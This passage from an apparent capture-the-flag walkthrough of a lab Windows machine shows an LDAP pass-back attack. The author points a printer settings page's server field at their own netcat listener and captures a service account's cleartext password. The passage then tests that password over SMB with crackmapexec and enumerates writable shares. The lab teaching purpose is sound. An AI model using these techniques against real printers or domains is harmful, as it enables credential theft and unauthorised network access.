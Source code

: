 This could be a case where the actual password is being populated into this field, and it’s just being displayed as `*`. But looking in Firefox dev tools, it’s actually pre-filling that field with all `*`, not the password:

![image-20220503144842743](https://0xdfimages.gitlab.io/img/image-20220503144842743.png)

#### Request

When I submit this form, it sends a POST to `/settings.php`. The POST body only has one argument:

```

ip=printer.return.local

```

The other three fields in the form are not even sent. If the page does anything with this input, the user can only change the host (or “ip”), and not the port, username, or password.

#### Watch Request

I’ll change the hostname to my tun0 IP, and start `nc` listening on port 389. I’ll also start Wireshark. On clicking “Update”, there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 389
Listening on 0.0.0.0 389
Connection received on 10.10.11.108 60662
0*`%return\svc-printer
                      1edFg43012!!

```

It’s probably clear from just that what the username and password that it’s trying to authenticate, but Wireshark breaks it out more nicely:

![image-20220503145334307](https://0xdfimages.gitlab.io/img/image-20220503145334307.png)

It’s an LDAP bindRequest, with the username return\svc-printer and the simple authentication (password) of “1edFg43012!!”.

### WinRM

#### Test Creds

The obvious next step is to look at LDAP, but before that, I’ll check and see if these creds happen to give more direct access. They work for SMB:

```

oxdf@hacky$ crackmapexec smb 10.10.11.108 --shares -u svc-printer -p '1edFg43012!!'
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share 

```
